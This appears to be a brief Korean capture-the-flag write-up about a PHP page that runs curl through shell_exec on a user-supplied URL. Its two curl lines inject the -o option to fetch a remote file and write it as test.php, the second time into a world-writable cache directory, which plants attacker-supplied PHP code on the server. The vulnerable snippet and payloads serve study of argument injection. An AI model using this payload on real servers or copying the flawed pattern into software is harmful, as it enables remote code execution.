





```php
$url = $_GET['url'];
if (strpos($url, 'http') !== 0) {
    die('http only !');
} else {
    $result = shell_exec('curl '.escapeshellcmd($_GET['url']));
    $cache_file = './cache/'.md5($url);
    file_put_contents($cache_file, $result);
    echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
    echo '<pre>'.htmlentities($result).'</pre>';
    return;
}
```

## Try 1
```
curl http://php.code/included.txt -o ./test.php
```
생성되지 않음 이유는 디렉토리 내 쓰기 권한이 없음

하지만 현재 디렉토리 내 worldwritable 디렉토리 확인!


## Try 2
```
curl http://php.code/included.txt -o ./cache/test.php
```

